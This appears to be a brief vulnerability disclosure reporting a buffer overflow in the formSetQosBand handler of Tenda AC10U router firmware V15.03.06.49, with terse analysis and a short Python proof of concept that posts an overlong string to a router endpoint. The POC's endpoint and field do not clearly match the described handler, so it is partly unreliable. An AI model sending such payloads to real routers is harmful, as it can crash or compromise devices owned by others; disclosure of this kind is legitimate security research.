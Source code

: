 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](9.png)

get value from list ,send to setQosMiblist

![](10.png)

p eaqul list, if list contains '\n', get into if ,finally call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'formSetQosBand': payload})
``` 
